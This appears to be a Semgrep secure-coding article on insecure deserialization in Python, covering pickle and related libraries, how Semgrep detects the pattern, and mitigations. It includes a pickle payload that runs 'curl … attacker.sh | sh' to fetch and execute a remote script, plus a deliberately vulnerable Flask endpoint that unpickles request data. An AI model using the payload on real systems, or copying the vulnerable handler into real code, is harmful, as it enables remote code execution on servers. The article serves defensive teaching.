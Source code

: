 ```yaml
---
title: Python Deserialization
description: Learn about insecure Python deserialization
hide_title: false
displayed_sidebar: learnSidebar
slug: /learn/vulnerabilities/insecure-deserialization/python-deserialization
---
```


# Insecure Deserialization in Python: Understanding the Risks and Safer Alternatives

Insecure deserialization has been a recurring entry in the OWASP Top 10 list of web application risks, and for good reason. The Python ecosystem in particular provides developers with powerful libraries for serializing and deserializing objects, but these same features can expose applications to remote code execution or denial of service. A notable example is Django’s decision to deprecate the `PickleSerializer` in version 4.1, acknowledging that the`pickle` module from Python’s standard library is inherently unsafe for deserialization.

For Python developers, this risk is anything but theoretical. If your application deserializes data, you may be giving attackers a way in. The impact can range from unexpected crashes to a full system compromise. It’s worth stressing: Python’s `pickle` and similar libraries should never be used to process untrusted input. They were built for speed and flexibility, not security.

In this article, we explain the fundamentals of serialization in Python. Then, we illustrates the most common ways insecure deserialization is exploited, and show you how to detect these patterns in your own code. Finally, we provide some practical recommendations to avoid the risks.

### Pickling and unpickling

Serialization is the process of converting Python objects into a format that can be stored or transmitted, while deserialization restores them back into usable objects. This solves a practical problem: developers need a way to save program state, transfer structured data across the network, or exchange complex objects between systems.

Python’s infamous `pickle` module was created to solve exactly this problem. It allows arbitrary Python objects to be serialized and later reconstructed. The design is intentionally permissive: objects can control how they are pickled and unpickled, and the process can invoke functions or methods during reconstruction. This flexibility makes `pickle` extremely convenient, but it also introduces a significant security risk. By design, deserialization can execute code, which means an attacker who controls the input data can run arbitrary commands.

Other libraries extend or reuse the same approach. `dill` adds more object types to what can be serialized, `jsonpickle` uses JSON as a transport format but still permits arbitrary Python object reconstruction, and `shelve` simply stores pickled objects in a file-like database. Even PyYAML, a popular choice for configuration files, defaults to unsafe loading modes unless developers explicitly call `safe_load`. These features exist to make the developer’s life easier but also increase the attack surface when used on untrusted data.

### Insecure Deserialization Attacks

The most severe outcome of insecure deserialization is remote code execution. In this case, an attacker provides a serialized payload that, when deserialized, executes system commands. 

```python
import pickle, os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ("curl http://semgrep.dev/attacker.sh | sh",))

payload = pickle.dumps(Exploit())
```

In the minimal example shown above, a pickle payload is crafted that calls `os.system` to fetch and run a script from a domain such as `semgrep.dev`. The deserialization process is not just restoring an object; it is executing arbitrary code on the server.

### How To Detect Insecure Deserialization In Your Code

Consider a Python web server built using the standard library’s `http.server` module. A developer might be tempted to unpickle data received in a request for convenience.

```python
import pickle
from flask import Flask, request
import io

app = Flask(__name__)

@app.route("/deserialize", methods=["POST"])
def deserialize():
    # Attacker controls request body
    raw_data = request.data
    obj = pickle.load(io.BytesIO(raw_data))
    return str(obj)
```

In this example, the call to `pickle.load` is applied directly to data derived from user input. If an attacker crafts a malicious pickle string, it will be executed when the handler processes the request. This is precisely the kind of pattern Semgrep’s rules can detect. The rules track data flow from untrusted sources such as HTTP request paths or headers and flag places in the code where it when it reaches sensitive functions like `pickle.loads`. Semgrep currently covers over a dozen Python libraries with known insecure deserialization functions.

### Recommendations & Mitigations

The simplest and most effective recommendation is to avoid `pickle` and its variants (`_pickle`, `cPickle`, `dill`, `jsonpickle`, `shelve`) for any untrusted input. These libraries cannot be made safe against arbitrary input because they allow execution by design. Use YAML or JSON to transfer and store data instead.

We highly recommend to use automated tools to verify compliance, since many more libraries use deserialisation powered by libraries such as `pickle` under the hood. Running Semgrep regularly as part of your continuous integration pipeline can highlight insecure deserialization patterns before they reach production.

A few examples for popular libraries:

- In Django, never switch back to the deprecated `PickleSerializer` for sessions.
- In NumPy, avoid setting `allow_pickle=True` when calling `numpy.load`.
- In PyTorch, prefer using the `weights_only=True` flag when calling `torch.load` to prevent deserialization of arbitrary Python objects.

### Conclusion

Insecure deserialization in Python is not just a theoretical concern; it is a practical risk that arises whenever untrusted data is passed to permissive deserialization libraries. The fundamental issue is that modules such as `pickle` are designed to execute code during deserialization, making them unsuitable for handling external input.

We have seen how serialization works in Python, why features like `pickle` introduce risks, how attackers exploit them through remote code execution, and how Semgrep can detect vulnerable patterns in your own projects. The path forward is clear: avoid unsafe libraries for untrusted data, choose safer alternatives like JSON or `safe_load` for YAML, and rely on automated scanning to catch mistakes early.

As the deprecation of Django’s `PickleSerializer` illustrates, the community has recognized the risks of insecure deserialization. By taking a disciplined approach to the libraries you use and by applying tools like Semgrep, you can ensure your Python applications remain resilient against this class of vulnerabilities.

For more guidance and practical rules, see the [Semgrep documentation](/getting-started/quickstart) and consider scanning your codebase with our [Pro rules](/semgrep-code/pro-rules). Identifying and fixing insecure deserialization today will save you from severe problems tomorrow.

